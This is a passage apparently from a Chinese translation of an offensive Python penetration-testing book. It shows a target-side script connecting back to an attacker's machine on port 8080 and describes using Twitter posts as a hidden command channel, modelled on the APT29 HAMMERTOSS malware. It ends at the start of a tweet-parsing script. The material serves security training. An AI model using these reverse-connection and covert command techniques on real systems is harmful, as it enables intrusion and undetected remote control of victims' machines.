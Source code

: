 ```
```

然后，我们将结果存储在一个名为 `ip` 的变量中，它是攻击者机器的 IP 地址。现在，我们只需注释掉 `connect(ip)` 函数，并打印出结果，以确保我们的脚本在这里运行正常。所以我们将运行该模块，它会显示 IP 地址为 `37.202.101`，如下所示：

```
>>>
Attacker IP is: 37.202.101.240
>>>
```

让我们回到攻击者机器，并通过在 Google 上搜索 `what is my ip address` 来验证我们的公网 IP 地址。如果一切顺利，我们将看到目标机器识别出的与攻击者机器的更新公网 IP 地址相同的地址。

所以，由于 IP 变量存储了我们攻击者的 IP 地址，我们将这个值传递到连接函数中，并使用这个值连接回攻击者的机器。

请注意，我们已经用一个名为 `ip` 的变量替换了 `s.connect((ip, 8080))` 中的静态 IP 地址。

# 与 Twitter 互动

现在，我们将讨论一种当前常用的技术：依赖于知名服务器来执行某些任务或传输信息。俄罗斯的恶意软件使用了这种技术。攻击者的做法是，他们通过自己的 Twitter 账户发送数据，并让目标在稍后解析它。所以，在攻击者的机器上，我们只是发送一个正常的推文作为命令到我们的 Twitter 账户。注意，攻击者与目标之间没有直接的通信，这正是其中的邪恶之处。稍后，目标将解析推文并执行该命令。这样做的好处有：

+   Twitter 是一个受信任的网站，且具有很高的声誉；很可能它是一个白名单网站。

+   这种类型的攻击非常难以检测，一个缺乏经验的安全团队绝对不会想到这些数据可能是恶意的——而我在这里的目标之一就是让你对这种恶意攻击有警觉。

在下一部分，我们将从 Kali 机器向我们的账户发送一个普通的 `hello` 字符串作为推文。在客户端，我们将解析这条推文，然后打印出结果。

现在，从技术角度讲，任何人都可以在不登录 Twitter 的情况下查看你的推文。我建议你阅读 FireEye 的报告，看看攻击者是如何利用这种情况的，[`www2.fireeye.com/APT29-HAMMERTOSS-WEB-2015-RPT.html`](https://www2.fireeye.com/APT29-HAMMERTOSS-WEB-2015-RPT.html)。

信不信由你，在五行 Python 脚本中，你将通过 HTTPS 连接到攻击者页面，检索 HTML 内容并解析它，最后从推文中提取数据。

# 用三行代码解析推文

为了演示，我在 Twitter 上创建了一个账户。我的个人资料名称是 `@HussamKhrais`。

所以，我将从 Kali 机器登录到我的 Twitter 账户并发送一条推文，我们将看看从目标机器获取这条推文有多么简单。首先，让我们开始创建一条新推文（例如`Hello from kali python`），然后从账户中登出。现在，让我们快速看一下在发布推文后创建的 HTML 页面，通过查看页面源代码。搜索并找到我们刚刚发布的推文。然后，如果我们稍微向左滚动一点，注意到 HTML meta 标签参数：

```
<meta name="description" content="The latest Tweets from Hussam Khrais (@HussamKhrais): &quot;Hello from kali python&quot;">
```

第一个参数`name`的值是`description`，第二个参数`content`包含了我们的推文。现在，我们将使用这些 HTML 标签来解析 HTML，并最终提取推文。

Python 有一个叫做 Beautiful Soup 的库，这是一个非常著名的工具，用于解析 HTML 页面。你可以从以下地址下载：[`pypi.python.org/pypi/BeautifulSoup/`](https://pypi.python.org/pypi/BeautifulSoup/)。

要安装这个库，只需导航到 Beautiful Soup 所在的目录，然后运行`python setup.py`并进行安装。

让我们快速看一下代码，这是我们将在目标端使用的：

```
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Twitter terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest

# Tweets Grabber

from BeautifulSoup import BeautifulSoup as soupy
```